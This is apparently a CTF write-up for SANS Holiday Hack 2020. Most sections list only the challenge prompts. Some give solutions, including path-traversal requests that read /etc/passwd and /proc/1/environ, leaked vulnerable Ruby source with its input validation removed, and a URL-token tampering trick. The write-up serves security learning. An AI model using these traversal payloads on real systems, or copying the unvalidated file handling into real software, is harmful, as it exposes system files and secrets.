



# Sans-Holiday-Hack-2020
Sans Holiday Hack 2020

### 1) Uncover Santa's Gift List
```
There is a photo of Santa's Desk on that billboard with his personal gift list.
What gift is Santa planning on getting Josh Wright for the holidays?
Talk to Jingle Ringford at the bottom of the mountain for advice.
```
```
We can untwirl the image, and find the word Proxmark
```
### 2) Investigate S3 Bucket
```
When you unwrap the over-wrapped file, what text string is inside the package? 
Talk to Shinny Upatree in front of the castle for hints on this challenge.
```
### 3) Point-of-Sale Password Recovery
```
Help Sugarplum Mary in the Courtyard find the supervisor password for the point-of-sale terminal.
What's the password?
```
### 4) Operate the Santavator
```
Talk to Pepper Minstix in the entryway to get some hints about the Santavator.
```


### 5) Open HID Lock
```
Open the HID lock in the Workshop.
Talk to Bushy Evergreen near the talk tracks for hints on this challenge. 
You may also visit Fitzy Shortstack in the kitchen for tips.
```
### 6) Splunk Challenge
```
Access the Splunk terminal in the Great Room. 
What is the name of the adversary group that Santa feared would attack KringleCon?
```
### 7) Solve the Sleigh's CAN-D-BUS Problem
```
Jack Frost is somehow inserting malicious messages onto the sleigh's CAN-D bus. 
We need you to exclude the malicious messages and no others to fix the sleigh. 
Visit the NetWars room on the roof and talk to Wunorse Openslae for hints.
```
```
Say, do you have any thoughts on what might fix Santa's sleigh?
Turns out: Santa's sleigh uses a variation of CAN bus that we call CAN-D bus.
And there's something naughty going on in that CAN-D bus.
The brakes seem to shudder when I put some pressure on them, and the doors are acting oddly.
I'm pretty sure we need to filter out naughty CAN-D-ID codes.
There might even be some valid IDs with invalid data bytes
```
```
First figuring out which CAN-ID associates to which vehicle actions 
02A#0000FF	; Stop
02A#00FF00	; Start
19B#000000000000	;Lock
19B#00000F000000	;Unlock
080#000000		;Brake
188#
019#			;Steering
244#			;Acceleration

So I tried the following process for each of the identified CAN ID
foreach CAN-ID in list{
  block other CAN-ID in the list,
  observe the can data,
  make the movement and validate the logs for each action
  for any unintended can message, note it down
  }
Based on the observation I noticed ,
- unusual data 0000F2097 coming for 19B ID - Lock
- unusual negative data coming for 080 ID - Brake
- unusual negative data coming for 019 ID - Steering

Feeding these information to block these ID with such conditions defrost's Santa's sleigh.
```


### 8) Broken Tag Generator
```
Help Noel Boetie fix the Tag Generator in the Wrapping Room. 
What value is in the environment variable GREETZ? 
Talk to Holly Evergreen in the kitchen for help with this.
```
```
Finding API endpoints from https://tag-generator.kringlecastle.com/js/app.js
 url: '/save',
 url: '/upload',
 url: '/share',
 
GET /share?id=xyz
 
<p>Error in /app/lib/app.rb</p>

Performing LFI on endpoint /image?id=

GET /image?id=../etc/passwd
<SNIP>
app:x:1000:1000:,,,:/home/app:/bin/bash
<SNIP>

Reading the source file

HTTP/1.1 200 OK
Server: nginx/1.14.2
Date: Fri, 01 Jan 2021 22:56:22 GMT
Content-Type: image/jpeg
Content-Length: 4886
Connection: close
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=15552000; includeSubDomains
X-XSS-Protection: 1; mode=block
X-Robots-Tag: none
X-Download-Options: noopen
X-Permitted-Cross-Domain-Policies: none

# encoding: ASCII-8BIT

TMP_FOLDER = '/tmp'
FINAL_FOLDER = '/tmp'

# Don't put the uploads in the application folder
Dir.chdir TMP_FOLDER

require 'rubygems'

require 'json'
require 'sinatra'
require 'sinatra/base'
require 'singlogger'
require 'securerandom'

require 'zip'
require 'sinatra/cookies'
require 'cgi'

require 'digest/sha1'

LOGGER = ::SingLogger.instance()

MAX_SIZE = 1024**2*5 # 5mb

# Manually escaping is annoying, but Sinatra is lightweight and doesn't have
# stuff like this built in :(
def h(html)
  CGI.escapeHTML html
end

def handle_zip(filename)
  LOGGER.debug("Processing #{ filename } as a zip")
  out_files = []

  Zip::File.open(filename) do |zip_file|
    # Handle entries one by one
    zip_file.each do |entry|
      LOGGER.debug("Extracting #{entry.name}")

      if entry.size > MAX_SIZE
        raise 'File too large when extracted'
      end

      if entry.name().end_with?('zip')
        raise 'Nested zip files are not supported!'
      end

      # I wonder what this will do? --Jack
      # if entry.name !~ /^[a-zA-Z0-9._-]+$/
      #   raise 'Invalid filename! Filenames may contain letters, numbers, period, underscore, and hyphen'
      # end

      # We want to extract into TMP_FOLDER
      out_file = "#{ TMP_FOLDER }/#{ entry.name }"

      # Extract to file or directory based on name in the archive
      entry.extract(out_file) {
        # If the file exists, simply overwrite
        true
      }

      # Process it
      out_files << process_file(out_file)
    end
  end

  return out_files
end

def handle_image(filename)
  out_filename = "#{ SecureRandom.uuid }#{File.extname(filename).downcase}"
  out_path = "#{ FINAL_FOLDER }/#{ out_filename }"

  # Resize and compress in the background
  Thread.new do
    if !system("convert -resize 800x600\\> -quality 75 '#{ filename }' '#{ out_path }'")
      LOGGER.error("Something went wrong with file conversion: #{ filename }")
    else
      LOGGER.debug("File successfully converted: #{ filename }")
    end
  end

  # Return just the filename - we can figure that out later
  return out_filename
end

def process_file(filename)
  out_files = []

  if filename.downcase.end_with?('zip')
    # Append the list returned by handle_zip
    out_files += handle_zip(filename)
  elsif filename.downcase.end_with?('jpg') || filename.downcase.end_with?('jpeg') || filename.downcase.end_with?('png')
    # Append the name returned by handle_image
    out_files << handle_image(filename)
  else
    raise "Unsupported file type: #{ filename }"
  end

  return out_files
end

def process_files(files)
  return files.map { |f| process_file(f) }.flatten()
end

module TagGenerator
  class Server < Sinatra::Base
    helpers Sinatra::Cookies

    def initialize(*args)
      super(*args)
    end

    configure do
      if(defined?(PARAMS))
        set :port, PARAMS[:port]
        set :bind, PARAMS[:host]
      end

      set :raise_errors, false
      set :show_exceptions, false
    end

    error do
      return 501, erb(:error, :locals => { message: "Error in #{ __FILE__ }: #{ h(env['sinatra.error'].message) }" })
    end

    not_found do
      return 404, erb(:error, :locals => { message: "Error in #{ __FILE__ }: Route not found" })
    end

    get '/' do
      erb(:index)
    end

    post '/upload' do
      images = []
      images += process_files(params['my_file'].map { |p| p['tempfile'].path })
      images.sort!()
      images.uniq!()

      content_type :json
      images.to_json
    end

    get '/clear' do
      cookies.delete(:images)

      redirect '/'
    end

    get '/image' do
      if !params['id']
        raise 'ID is missing!'
      end

      # Validation is boring! --Jack
      # if params['id'] !~ /^[a-zA-Z0-9._-]+$/
      #   return 400, 'Invalid id! id may contain letters, numbers, period, underscore, and hyphen'
      # end

      content_type 'image/jpeg'

      filename = "#{ FINAL_FOLDER }/#{ params['id'] }"

      if File.exists?(filename)
        return File.read(filename)
      else
        return 404, "Image not found!"
      end
    end

    get '/share' do
      if !params['id']
        raise 'ID is missing!'
      end

      filename = "#{ FINAL_FOLDER }/#{ params['id'] }.png"

      if File.exists?(filename)
        erb(:share, :locals => { id: params['id'] })
      else
        return 404, "Image not found!"
      end
    end

    post '/save' do
      payload = params
      payload = JSON.parse(request.body.read)

      data_url = payload['dataURL']
      png = Base64.decode64(data_url['data:image/png;base64,'.length .. -1])

      out_hash = Digest::SHA1.hexdigest png
      out_filename = "#{ out_hash }.png"
      out_path = "#{ FINAL_FOLDER }/#{ out_filename }"
     
      LOGGER.debug("output: #{out_path}")
      File.open(out_path, 'wb') { |f| f.write(png) }
      { id: out_hash }.to_json
    end
  end
end


Checking for environment variables from process by brutefocing the process id and then checking the environment variables

GET /image?id=../proc/1/environ

PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin HOSTNAME=cbf2810b7573 RUBY_MAJOR=2.7 RUBY_VERSION=2.7.0 RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343 GEM_HOME=/usr/local/bundle BUNDLE_SILENCE_ROOT_WARNING=1 BUNDLE_APP_CONFIG=/usr/local/bundle APP_HOME=/app PORT=4141 HOST=0.0.0.0 GREETZ=JackFrostWasHere HOME=/home/app 

```
### 9) ARP Shenanigans
```
Go to the NetWars room on the roof and help Alabaster Snowball get access back to a host using ARP. 
Retrieve the document at /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt. 
Who recused herself from the vote described on the document?
```
### 10) Defeat Fingerprint Sensor
```
Bypass the Santavator fingerprint sensor. 
Enter Santa's office without Santa's fingerprint.
```
```
When Santa logs in the url looks like this
https://elevator.kringlecastle.com/?challenge=santamode-elevator&id=908e3ccd-114c-XXXX-XXXX-6e222a550aee&username=heckthathack&area=santamode-santavator1&location=1,2&tokens=marble,nut2,nut,candycane,ball,yellowlight,elevator-key,greenlight,redlight,workshop-button,besanta

When the user logs in the url looks like this
https://elevator.kringlecastle.com/?challenge=santamode-elevator&id=908e3ccd-114c-XXXX-XXXX-6e222a550aee&username=heckthathack&area=santamode-santavator1&location=1,2&tokens=marble,nut2,nut,candycane,ball,yellowlight,elevator-key,greenlight,redlight,workshop-button,besanta

The only key difference is one extra parameter that is passed for santa , i.e besanta, so we can modify the html in the iframe something like this
<iframe title="challenge" src="https://elevator.kringlecastle.com?challenge=elevatorr&amp;id=5dd79c13-81de-48e0-b121-5714ca8ace80&amp;username=heckthathack&amp;area=santavator5&amp;location=1,2&amp;tokens=marble,nut,candycane,elevator-key,redlight,nut2,ball,yellowlight,greenlight,workshop-button,besanta"></iframe>
```


### 11a) Naughty/Nice List with Blockchain Investigation Part 1
```
Even though the chunk of the blockchain that you have ends with block 129996, can you predict the nonce for block 130000? 
Talk to Tangle Coalbox in the Speaker UNpreparedness Room for tips on prediction and Tinsel Upatree for more tips and tools. 
(Enter just the 16-character hex value of the nonce)
```
### 11b) Naughty/Nice List with Blockchain Investigation Part 2
```
The SHA256 of Jack's altered block is: 58a3b9335a6ceb0234c12d35a0564c4e f0e90152d0eb2ce2082383b38028a90f. 
If you're clever, you can recreate the original version of that block by changing the values of only 4 bytes. 
Once you've recreated the original block, what is the SHA256 of that block?
```
